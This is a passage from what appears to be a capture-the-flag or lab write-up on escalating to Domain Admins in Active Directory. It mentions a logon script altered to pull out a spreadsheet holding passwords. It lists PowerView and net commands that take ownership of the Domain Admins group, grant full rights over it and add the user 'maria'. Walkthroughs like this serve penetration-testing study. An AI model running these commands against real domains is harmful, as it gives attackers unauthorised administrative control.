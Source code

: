 Cool last cahnge of the logon script to exfiltrate `Engines.xls` and download it locally. Looks really really fun, we have 3 passwords to try now!

![b54860e3e73e77617c3f5075fd1de36e.png](img/b54860e3e73e77617c3f5075fd1de36e.png)

Let's bet 10 euros, in my opinion the last one is correct.

![09f0e4975629ec9c7d85d2ef74d9db5e.png](img/09f0e4975629ec9c7d85d2ef74d9db5e.png)

I WON! Yeah was an easy guess, lol. Well you have noticed the **PW3ND!** message, that's **not because we are inside the Domain Admins group but because we can <u>change owner</u> of that group**. Easy peasy we can add ourselves into that group . We can check this looking the DACL of `Domain Admins`

![0fc44aad5856456fc9a4bfb14b892332.png](img/0fc44aad5856456fc9a4bfb14b892332.png)

So thi are the powershell command to use for being to be part of Domain Admins groups

1) Set ourselves as **Owner**
```
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```
2) Join the groups with all te possible permissions
```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```
3) Finally add ourselves into the group!
```
net group "Domain Admins" maria /add
```
